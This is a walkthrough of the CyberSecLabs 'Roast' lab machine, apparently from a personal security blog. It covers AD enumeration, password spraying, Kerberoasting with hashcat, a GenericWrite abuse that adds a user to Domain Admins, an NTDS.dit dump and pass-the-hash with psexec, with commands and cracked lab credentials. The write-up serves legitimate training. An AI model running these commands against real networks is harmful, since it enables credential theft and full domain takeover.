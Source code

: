 ## Cyberseclabs - Roast Walkthrough


## Nmap Scan 
As usual, we start off with a nmap scan to discover open ports and its corresponding services running on the system.

![nmap_scan.PNG](/images/roast/Nmap/nmap_scan.PNG)

From the nmap scan , we see a bunch of open ports, mainly
- Port 88 : Kerberos
- Ports 135,139,445 : SMB 
- Ports 389,3268 : LDAP
- Port 3389 : RDP
- Port 5985 : Winrm 

Before we continue, we have to edit our **hosts** file and add the  domain name + IP address 

![hosts.PNG](/images/roast/Nmap/hosts.PNG)

## SMB Enumeration
Let's start off by enumerating SMB, to see if we have anonymous access (a.k.a NULL Session).

![smbclient.PNG](/images/roast/Nmap/smbclient.PNG)

As seen above, no shares were shown/discovered when we login to smb as anonymous 

Since we do not have any credentials or information on SMB, let's turn our attention to LDAP.

## LDAP Enumeration
One great tool to enumerate LDAP that is build into Kali Linux is **ldapsearch**.
![namingcontexts.PNG](/images/roast/LDAP/namingcontexts.PNG)
<u>ldapsearch -h 172.31.3.2 -x -s base namingcontexts</u>

By running the above command, we get the base DN so that we can do our ldap query later on.

![dsmith.PNG](/images/roast/LDAP/dsmith.PNG)
![crhodes.PNG](/images/roast/LDAP/crhodes.PNG)
![ssmith.PNG](/images/roast/LDAP/ssmith.PNG)
<u>ldapsearch -h 172.31.3.2 -x -b "DC=roast,DC=csl"</u>

Looking at the output above , we discovered 3 users and user **dsmith** has its password in his description. (WelcomeToR04st)

We went back to **enumerate smb** with user **dsmith**'s credentials, however, nothing interesting there.

## RPC User Enumeration 
Upon obtaining user **dsmith**'s credentials, I tried to enumerate for more users using rpcclient 
![enumdomusers.PNG](/images/roast/rpcclient/enumdomusers.PNG)
From the output, there is an additional non-default user  **roastsvc**.

## Kerbrute PasswordSpray
Since evil-winrm does not return us a shell as user **dsmith**, let's try some password spraying to see if any other users share the same password as **dsmith**
![passwordspraying.PNG](/images/roast/kerbrute/passwordspraying.PNG)
<u>./kerbrute_linux_amd64 passwordspray -v -d roast.csl --dc 172.31.3.2 users.txt WelcomeToR04st</u>

Through password spraying, we discover that user **crhodes** also shares the same password as user **dsmith**. 

## Enumerate users with SPN set
Let's obtain a shell as user **crhodes** using evil-winrm and at the same time, load [PowerView](https://github.com/PowerShellMafia/PowerSploit) powershell script.
![crhodes.PNG](/images/roast/kerberoast/crhodes.PNG)
After obtaining a shell as user **crhodes**, we realised that the access.txt is not in the Desktop directory. It means we have to enumerate more and esclate ourselves to another user. 

From here, we can get more information on all the AD users by running PowerView's command **Get-NetUser -SPN** to list all users with a SPN set. 

![SPN.PNG](/images/roast/kerberoast/SPN.PNG)
From the output, we discover that user **roastsvc** has a serviceprincipalname(SPN) set. With this information, it tells us that user **roastsvc** is **likely** susceptible to **kerberoasting**.

## Kerberoasting 
Since we know that user **roastsvc** is likely vulnerable to kerberoasting, we can use [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) by impacket to obtain the TGS and take it offline to crack
![TGS.PNG](/images/roast/kerberoast/TGS.PNG)

Once we obtain the TGS, let's crack it with hashcat
![cracked_tgs.PNG](/images/roast/kerberoast/cracked_tgs.PNG)
<u>hashcat -m 13100 -a 0 roastsvc_spn /usr/share/wordlists/rockyou.txt</u>

Credentials -> roastsvc:!!!watermelon245

## Privilege Esclation to SYSTEM
Once we get a shell as user **roastsvc**, we upload and run [BloodHound](https://github.com/BloodHoundAD/BloodHound) against the machine to reveal any misconfigured AD relationships.

First, let's setup a smb-server using impacket then mount the smb share on the target machine, so that we can upload Bloodhound and download the bloodhound output with ease
- Setup impacket's smb-server
	![smbserver.PNG](/images/roast/SMBServer/smbserver.PNG)
	Syntax : impacket-smbserver (sharename) (directory) -smb2support -username (your-username) -password (your-password)
- Setup new PSDrive on target machine and mount the share
	![mount.PNG](/images/roast/SMBServer/mount.PNG)
	- $pass = convertto-securestring (your-password) -AsPlainText -Force
	- $cred = New-Object System.Management.Automation.PSCredential('(your-username)', $pass)
	- New-PSDrive -Name (your-username) -PSProvider FileSystem -Credential $cred \\\\(your-ip)\(share-name)
- CD into your share, run bloodhound 
	![sharphound.PNG](/images/roast/SMBServer/sharphound.PNG)
	- Make sure you upload bloodhound to the directory you created as the share
- Start Bloodhound 
	![bloodhound.PNG](/images/roast/SMBServer/bloodhound.PNG)
	- neo4j console start
	- bloodhound 

- Upload the bloodhound output to analyze 
	![bloodhound_output.PNG](/images/roast/SMBServer/bloodhound_output.PNG)
	- Drag and drop the zip file into the bloodhound console

Once we are done setting up BloodHound, let's start analyzing the output that we have gathered from the target machine.
- Mark user **roastsvc** as **Owned**
	![owned_user.jpg](/images/roast/SYSTEM/owned_user.jpg)
- Use the built-in query 
	![path_to_DA.jpg](/images/roast/SYSTEM/path_to_DA.jpg)
	- "Shortest Path to Domain Admins from Owned Principals"

From here, we found out that user **roastsvc** has **GenericWrite** to group **Domain Admins**.

![generic_write.PNG](/images/roast/SYSTEM/generic_write.PNG)
- **GenericWrite** : Provides write access to all properties

Since user **roastsvc** has **GenericWrite** permission to the **Domain Admins** group, we can simply just add user **roastsvc** into the **Domain Admins** group.
- List all current members of **Domain Admins** group
	![original_DA_members.PNG](/images/roast/SYSTEM/original_DA_members.PNG)
	- net group (group-name) /domain
- Add user **roastsvc** into **Domain Admins** group
	![add_to_DA.PNG](/images/roast/SYSTEM/add_to_DA.PNG)
	- net group (group-name) (user-to-add) /ADD /DOMAIN 
- Check if user **roastsvc** is added into the group
	![updated_DA_members.PNG](/images/roast/SYSTEM/updated_DA_members.PNG)
	- net group (group-name) /domain

Lastly, we can dump the NTDS.dit hash file for the Administrator's hash using [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/examples/secretsdump.py) by impacket and [PSExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) into the target machine
- Dumping the NTDS.dit hash file 
	![secretsdump.PNG](/images/roast/SYSTEM/secretsdump.PNG)
	- python secretsdump.py (domain-name)/(user)@(domain-name) -dc-ip 172.31.3.2
- Get the Administrator's hash
	![admin_hash.PNG](/images/roast/SYSTEM/admin_hash.PNG)
	
- PSExec 
	![psexec.PNG](/images/roast/SYSTEM/psexec.PNG)
	- python psexec.py (domain-name)/user@(domain-name) -hashes (admin-hash) -dc-ip 172.31.3.2 




















